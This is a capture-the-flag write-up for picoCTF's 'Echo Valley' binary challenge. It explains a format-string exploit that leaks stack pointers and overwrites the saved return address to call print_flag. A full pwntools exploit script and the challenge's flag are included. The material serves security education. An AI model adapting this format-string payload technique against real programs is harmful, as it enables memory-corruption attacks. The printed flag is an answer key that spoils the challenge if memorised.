






## Echo Valley
 

**Description**

The echo valley is a simple function that echoes back whatever you say to it. But how do you make it respond with something more interesting, like a flag?

**Write-up**

To win, `print_flag` must be called. The only way to call the win function is by abusing the format string vulnerability at line `39`.



My first ideia was to overwrite a GOT entry of a function such as `fflush` with the pointer to `print_flag`, for that I first had to leak a pointer to know where to write and what to write, however that isn't a problem since the format string runs in loop.

E.g. leak:


Found the argument where a pointer to main is located through the format string `%21$016llx`:


In GDB session, the address of `print_flag` is `0x0000555555555269` and of `main` ptr `0x555555555413`. The addresses won't be exactly the same because of PIE, but the offsets yes. The difference between the 2 is `0x1aa`, so to have the address to `print_flag` after the leak I just have to subtract that value. 



The next iteration, we have to overwrite a got entry, of a function that is executed in the loop, with the calculated pointer. A good candidate is `fflush`.


Using `objdump --dynamic-reloc ./valley | grep fflush` to print the offset: `0000000000003fb8 R_X86_64_JUMP_SLOT  fflush@GLIBC_2.2.5`.


From `print_flag` to that offset the difference is of `0x2d4f` bytes.


Now with all the pieces, the only thing remaining is overwriting the got entry. For this format string can be abused again, now with the format specifier `%hn`.


However decided to go with another solution, that seemed more intended for the CTF.

- Overwrite the `RIP` register directly in stack. So when I type "exit" and the `echo_valley` function terminates, it jumps to my address.
    - The problem with that is that I was not able to find any address that directly pointed there.

To solve the problem with the 2nd ideia, I instead leaked `RBP` register of current stack frame. That register points to the previous stack frame, in this case I had to subtract that value by 8 and as such managed to obtain a pointer directly to `RIP`.

At this point I have:
- print_flag address
- RIP address

The only thing left is overwriting the RIP address with `print_flag` address.

For that, I used a 3rd iteration of `echo_valley`, where I sent the following payload:

```payload
lower_2_bytes = ptr_to_print_flag & 0xFFFF
payload = b"A" * 8
payload += bytes("%{0}x%9$hn....".format(int(lower_2_bytes)), encoding='utf8')
payload += p64(rip_stack_location)
```

I wrote only the 2 lower bytes since most of the address is shared and the offset between the two is small.

Final step is to just type "exit" in the next iteration to leave the function and jump to our `RIP` controlled address.


The final exploit:
```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template valley
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or '/home/alex/Downloads/ctfs/curr_ctf/valley')

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        #return process([exe.path] + argv, *a, **kw)
        return remote("shape-facility.picoctf.net", 59032)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
break *echo_valley+223
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:      Full RELRO
# Stack:      Canary found
# NX:         NX enabled
# PIE:        PIE enabled
# SHSTK:      Enabled
# IBT:        Enabled
# Stripped:   No
# Debuginfo:  Yes

io = start()
io.recvuntil(b'Try Shouting:')

leak_ptr_payload = b'%21$016llx'
io.sendline(leak_ptr_payload)

io.recvuntil(b'You heard in the distance: ')
ptr = int(io.recv(16), 16)
offset = 0x1aa
ptr_to_print_flag = ptr - offset
ptr_to_got_fflush = ptr_to_print_flag + 0x2d4f

print("Leaked pointer is: " + hex(ptr))
print("Pointer to print_flag: " + hex(ptr_to_print_flag))

# Find RIP location in stack by leaking RBP
payload = b"%20$llx"                
io.sendline(payload)

io.recvuntil(b'You heard in the distance: ')
rip_stack_location = int(io.recv(16), 16) - 8

print("RIP stack location: " + hex(rip_stack_location))


# Write to RIP the 2 lower bytes of print_flag
lower_2_bytes = ptr_to_print_flag & 0xFFFF  # print_flag and main are on the same memory map 0x555555... only changing the last 2 bytes so there is no point in writing too much
payload = b"A" * 8
payload += bytes("%{0}x%9$hn....".format(int(lower_2_bytes)), encoding='utf8')  # Added 4 "." for padding, to have the arguments aligned
payload += p64(rip_stack_location)  # Having null bytes here is no problem, is the end of the payload anyway, as long as they are not in the middle of the address

io.sendline(payload)

# I must exit
io.sendline("exit")

io.interactive()
```

**Solution**


Flag: picoctf{f1ckl3_f0rmat_f1asc0}


[back](/index)